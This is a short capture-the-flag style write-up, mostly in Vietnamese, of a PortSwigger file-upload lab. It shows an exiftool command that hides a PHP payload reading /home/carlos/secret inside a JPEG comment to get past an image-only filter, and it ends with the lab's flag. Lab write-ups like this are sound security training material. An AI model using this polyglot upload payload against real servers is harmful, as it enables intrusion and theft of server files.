 # Target Goal: 
Upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``

# Recon: 
Upload thử 1 shell code php, đương nhiên web sẽ chặn các định dạng khác ngoài file là ảnh

Bài lab này chúng ta sử dụng polygot file cụ thể là Phar file format

Tìm hiểu về PHAR:
https://en.wikipedia.org/wiki/PHAR_(file_format)

Tìm hiểu về polygot file:
https://d47sec.wordpress.com/2021/09/02/tim-hieu-ve-polyglot-file/

Tạo 1 file ảnh nhưng có payload là file php, một số tiêu đề có thể excute được payload là phần comment của ảnh đó:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/ccda1522-b925-4da5-b90b-ff2fb1820aaa)

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" liem.jpg -o shelllab.php`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/9a1b82d2-7dcc-4034-be43-42deb9163977)

![image](https://github.com/vanniichan/Portswigger/assets/112863484/8add92a7-5569-457c-8f27-42f885b44a1b)

Open image in new tab -->

# Flag:
`bpUrmh8hkya7p3ST5vhAzWTuUrJKB5c4` 
